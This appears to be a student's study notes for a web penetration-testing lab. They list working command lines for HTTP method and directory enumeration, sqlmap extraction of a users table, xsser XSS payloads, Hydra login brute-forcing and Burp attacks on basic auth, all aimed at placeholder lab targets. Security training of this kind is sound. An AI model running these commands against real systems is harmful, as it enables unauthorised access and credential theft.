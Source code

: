 
##### Web and HTTP protocol (enumerate HTTP methods)

- Use inspector to inspect logon page (method and where it is send)
- dirb for directory busting:
	- `dirb http://ip `
- Check what options are possible for the webfiles/directories found with dir: 
	- `curl -X GET ip `
	- `curl -I ip `
	- `curl -X OPTIONS ip -v`
	- `curl -X PUT ip `
	- `curl -X OPTIONS ip/loging.php -v `
	- `curl -X POST ip `
	- `curl -X HEAD ip`
	- `curl -X POSt ip/login.php -d "name=john&password=password" -v` 
	- `curl -X OPTIONS ip/page_of_interest -v `
	- curl -XPUT ip 

If PUT is possible: `curl ip/uploads/ --upload-file file.txt`

Use Burp Suite and Curl to enumerate the HTTP method allowed by the web page/directory.
192.183.223.3 

HTTP Methods 
- **GET**
- **POST**
- **PUT**
- **HEAD**
- **DELETE**
- **PATCH**
- **OPTIONS**
- **CONNECT**
- **TRACK**

index.php
js
mail
uploads
vendor
img
css



##### Directory enumeration with GoBuster 


- similar to dirb 
- `gobuster`  (manual)
- `gobuster dir -u http://ip -w /usr/share/wordlist/dirb/common.txt `
- `gobuster dir -u http://ip -w /usr/share/wordlist/dirb/common.txt -b 403,404 ` (filter out 403 and 404)





##### Directory Enumeration with Burp Suite 

- turn on proxyfox 
- Action - send to intruder 
- check target 
- intruder (positions)
- ` Get /$name$` ![[Pasted image 20230926152712.png]] 
	- Sniper (directly) Attack type are different 
- Payloads
	- Add: data, passwords, phphmyadmin, js, images, 
	- load wordlist from kali: wordlists -> dirb --> common


##### Scanning Web Application with ZAProxy 

- run nmap scan 
open owasp zap 
click around on website to collect data 
![[Pasted image 20230926180039.png]]

Select form based authentication
![[Pasted image 20230926180141.png]]
Make sure user mode is enabled 
Use the spider to do enumaration 

##### Scanning web Applications with Nikto 

- `ping` and `nmap` for port 80 
- `nikto` 
- `nikto -Help `
- `nikto -h http://ip `
- `nikto -h http://ip/full_url -Tuning 5 -Display V
- `nikto -h http://ip/full_url -Tuning 5 -Display V -o nikto-results.hthml -Format html' 


##### Passive Crawling with Burp Suite 

- pull up http server with webbrowser 
- turn on burpsuite with foxyproxy
- check http history 
- target shows tree of site map 
- add the ip you test to the scope 


##### SQL Injection with SQLMap 
- run `nmap` 
- turn on foxyproxy 
- turn on burp - intercept on
- `sqlmap` 
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title `
![[Pasted image 20230926210205.png]]
- get the request in repeater so we can change it and send it again: 
![[Pasted image 20230926210610.png]]
- - `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp --tables `
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp -T users --columns `
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp -T users -C admin,passwords,email`



Generate new payloads - use payloads in repeater in burp 
- `sqlmap -r request -p title ` 




##### XSS Attack with XSSer

- visit 80 in browser 
- turn on foxyproxy 
- `xxser`
- `xsser -url "http://ip/index.php?page=dns-lookup.php" -p "payload" --auto ` (change payload to payload)
	- add custom script with: `--Fp "<script>alert(1)</script>"`
- scan page: `xsser -url "http://ip/index.php?PAGE_OF_INTREST"
**CHANGE YOU VARIABLE WITH XSS**
![[Pasted image 20230926212948.png]]










##### Authenticated XSS Attack with XSSer 

We need a cookie to try authenticated session 
Script is interpreted 
![[Pasted image 20230926213430.png]]

Use xsser to find out if its vulnerable for XSS
- `xsser` 
- `xsser -url "http://ip/path?firstanem=XSS&etc" --cookie"security_level=0; PHPSESSID=cookie" `
add `<script>alert(1)</script>`


##### Attacking HTTP Login From with Hydra 

- `hydra` 
  view page source to see what the post request for login is asking for and add that to the hydra command
- `hydra -L users_list -P passwords_list target_ip http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:reply_that_hydra_should_belookingfor




##### Attacking Basic Auth with Burp Suite 


- visti: `http://ip/basic`
![[Pasted image 20230926214941.png]]
Everything will be encrypted in base64 
![[Pasted image 20230926215015.png]]
add payload with wordlist - payload processing: add prefix admin: - encoded base 64 - 
decode in burp 
(smartdecode)
![[Pasted image 20230926215259.png]]



##### Attacking HTTP Login From ZAProxy 

- open owasp zap in kali (zaproxy)
- manual explore enter the ip and launch browser 
- try a login to capture the traffic 
- use the POST request with the login - right click and fuzz 
- load wordlist (select the username or password and Add)
- start fuzzer 


/fil